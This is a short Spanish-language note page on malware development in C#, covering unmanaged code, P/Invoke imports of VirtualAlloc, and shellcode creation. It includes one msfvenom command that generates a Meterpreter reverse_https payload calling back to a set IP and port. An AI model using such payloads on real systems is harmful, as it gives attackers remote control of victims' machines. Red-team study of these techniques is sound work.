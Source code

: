 ```yaml
---
description: Compilado de técnicas en C#
---
```


# MalDev

## Unmanaged Code

C# es un lenguaje de alto nivel y genera un bytecode en el momento de la compilación. Además, también proporciona características para ejecutar código inseguro como pointers, pero que también está en un alto nivel si se compila el código con C # Compiler (csc.exe). Este tipo de código en Windows se llama managed code, donde toda la gestión de memoria es manejada por el CLR(Common Language Runtime).

Además,  C# es un lenguaje muy flexible y permite llamar a la función definida en las DLL del código fuente que no está escrito en C#. Este tipo de código se conoce como unmanaged code. A diferencia del managed code, el desarrollador es responsable del manejo de los recursos.

Para utilizar el unmanaged code, deberemos importar librerias que nos permitan esto. Por lo que haremos uso de P/Invoke para este paso. Por ejemplo para la funcion VirtualAlloc que está escrita en C, la podemos importar de la siguiente forma (eligiendo una de las tres):

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

## Crear el shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.182.128 lport=443 -f csharp -o shellcode.cs 
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

**Otros tipos de payloads en msfvenom:**

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>
